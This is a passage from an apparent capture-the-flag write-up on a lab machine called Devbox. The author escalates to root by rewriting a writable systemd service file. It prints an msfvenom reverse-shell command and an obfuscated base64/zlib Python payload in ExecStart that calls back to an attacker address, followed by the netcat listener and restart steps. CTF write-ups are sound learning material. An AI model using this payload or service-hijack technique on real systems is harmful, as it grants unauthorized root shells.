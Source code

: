 I checked the `debugger.service` file:

```bash
$ ls -l /etc/systemd/system/multi-user.target.wants/debugger.service
lrwxrwxrwx 1 root root 36 Oct 20 18:05 /etc/systemd/system/multi-user.target.wants/debugger.service -> /lib/systemd/system/debugger.service

$ cat /etc/systemd/system/multi-user.target.wants/debugger.service
```

![](/post/2024/CTF-Devbox/images/Pasted%20image%2020241113141308.png)

Since the service file was writable, I modified it to execute a reverse shell as root. I created a Python reverse shell payload with `msfvenom`:

```bash
msfvenom -p cmd/unix/reverse_python LHOST=10.6.10.13 LPORT=4444 -f raw > shell.py
```

After replacing the `User` to root and `ExecStart` line in `debugger.service` , the file looked like this:

![](/post/2024/CTF-Devbox/images/Pasted%20image%2020241113141627.png)

```
[Unit]
Description=Debugger service
After=network-online.target

[Service]
User=root
ExecStart=/usr/bin/python3 -c "exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNqVkDsLwjAQgP9KyJSCpA/FRTIUqSCigu1ebIy0WHOhl/5/W9vokKk33PO7B9e8DXSWIMiXsuQrK4J9ZTqQCtFlYPYI2TmnBrSCxhHf8kHFa+oR42SxGcSroJgW8smwOUoP5fGSFb8zpmx+3Z/KvLhl6TnwJ3EJWitpGRsPcq3j6sCnAfmjNwlD/mxapYEFriFaAsdL4MSHjfh/mMt72zIaVo0OsabBB3yBYJ4=')[0])))"
RestartSec=1
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

With `nc` set to listen on port 4444,:

![](/post/2024/CTF-Devbox/images/Pasted%20image%2020241113141941.png)

I reloaded and restarted the service from the webshell:

```bash
sudo systemctl daemon-reload
sudo systemctl restart debugger
```

![](/post/2024/CTF-Devbox/images/Pasted%20image%2020241113141756.png)

This successfully spawned a root reverse shell, and navigating to the `/root` directory, I found the final flag:
